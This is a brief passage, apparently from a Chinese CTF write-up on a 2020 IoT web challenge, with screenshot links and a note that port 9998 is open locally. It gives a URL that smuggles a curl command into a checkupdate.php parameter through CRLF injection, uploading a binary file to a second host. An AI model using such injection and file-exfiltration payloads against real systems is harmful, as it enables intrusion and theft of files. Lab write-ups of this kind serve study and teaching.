 ![](https://raw.githubusercontent.com/ReAbout/ctf-writeup/master/xhlj-2020-iot/images/iot_web_1_ps.png)
本地开放9998端口   
![](https://raw.githubusercontent.com/ReAbout/ctf-writeup/master/xhlj-2020-iot/images/iot_web_1_netstat.png)
我们可以通过 `http://20.20.11.14/checkupdate.php?url=%0d%0acurl http://20.20.11.13:8000/ -F "file=@/workspace/data/executeproxynew"` 将binary传出来进行分析。
